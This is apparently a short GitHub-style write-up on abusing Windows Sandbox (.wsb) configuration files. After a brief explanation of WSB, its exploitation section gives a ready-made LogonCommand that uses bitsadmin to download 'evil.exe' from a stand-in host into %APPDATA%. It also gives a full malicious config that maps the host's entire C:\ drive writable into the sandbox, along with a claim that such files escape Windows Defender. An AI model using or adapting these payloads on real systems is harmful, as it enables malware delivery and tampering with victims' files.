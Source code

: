 
### I - How Windows Sandbox works


Windows Sandbox (WSB) will allow to create an isolated desktop environment, 
WSB configuration files are in XML format and use the .wsb extension.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



Here is an example of a configuration file: 




### II - Exploiting WSB configurations:


One of the first methods is to modify the `<Command>` field to execute our malicious command and access the host's system files, in addition to that WSB files are not detected by Windows Defender.

Possible command to inject:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Configuration compromises:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```

